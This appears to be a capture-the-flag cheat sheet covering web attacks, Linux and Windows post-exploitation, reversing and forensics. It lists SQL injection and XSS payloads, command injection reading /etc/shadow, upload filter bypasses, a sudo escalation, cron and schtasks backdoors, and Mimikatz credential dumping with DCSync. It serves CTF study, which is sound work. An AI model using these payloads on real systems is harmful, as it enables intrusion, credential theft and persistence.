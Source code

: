# Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: curl -I website.com/page.php

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: admin' OR 1=1, ' OR 1=1-- -, " OR 1=1-- -, " OR 1 or ", admin"-- -", admin;-- -'

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: || cat ../flag.txt, | cat ../flag.txt, && cat ../flag.txt, & cat ../flag.txt, ; cat ../flag.txt
Run [valid input] followed by: || cat ../../etc/passwd, | cat ../etc/shadow, && cat ../etc/shadow, & cat ../etc/shadow, ; cat ../etc/shadow
Run [valid input] followed by: || ifconfig, | ifconfig, && ifconfig, & ifconfig, ; ifconfig

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion
Any option to upload a file: make sure it's php. 
If whitelisting file types, add extension on to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
`Nmap -A -v ipaddress` (-A for aggressive, -v for verbose, -sV not required with -A)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

#Reversing
* Run "Strings <file> | grep flag" 
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)

#Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: http contains flag, tcp contains flag
  * Right-click packet and select "Follow stream"
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  

*ps1 = Powershell
